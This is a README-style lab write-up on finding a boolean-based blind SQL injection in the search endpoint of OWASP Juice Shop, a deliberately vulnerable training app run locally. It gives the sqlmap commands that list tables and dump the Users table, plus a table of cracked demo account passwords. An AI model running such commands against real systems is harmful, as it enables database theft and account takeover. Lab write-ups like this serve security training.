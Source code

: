 # 🔓 SQL Injection Lab – OWASP Juice Shop

This lab demonstrates how to discover and exploit a **boolean-based blind SQL injection** vulnerability in OWASP Juice Shop using `sqlmap`.

---

## 🛠️ Lab Environment

- **Target:** OWASP Juice Shop (Docker)
- **Attacker:** Kali Linux VM
- **Tools Used:** Docker, Firefox Dev Tools, SQLMap

---

## 🚀 Steps Performed

### 1. Started Juice Shop
bash

sudo docker run --rm -p 3000:3000 bkimminich/juice-shop

Juice Shop accessible at: http://localhost:3000

### 2. Found SQLi Vulnerability
Searched for a product in the Juice Shop search bar using '

Captured the backend request:

sql
GET /rest/products/search?q=
Used Firefox Dev Tools → “Copy as cURL” → converted into raw HTTP request (juice-request.txt)

## 3. Ran SQLMap

sqlmap -r juice-request.txt --batch --tables
✅ Backend DBMS: SQLite
✅ SQL Injection Type: Boolean-based blind
✅ 20 database tables retrieved

## 4. Dumped Users Table

sqlmap -r juice-request.txt --batch -T Users --dump

## 5. Cracked Password Hashes
SQLMap auto-cracked several MD5 hashes using its built-in dictionary:

| Email                    | Role     | Cracked Password |
| ------------------------ | -------- | ---------------- |
| `J12934@juice-sh.op`     | admin    | `admin123`       |
| `demo`                   | customer | `demo`           |
| `uvogin@juice-sh.op`     | deluxe   | `private`        |
| `accountant@juice-sh.op` | customer | `ncc-1701`       |


### 🧠 Takeaways
SQL injection can still be found in modern web apps using APIs.

SQLite doesn’t support multi-db enumeration, but data can still be dumped.

Weak passwords make post-exploitation trivial.
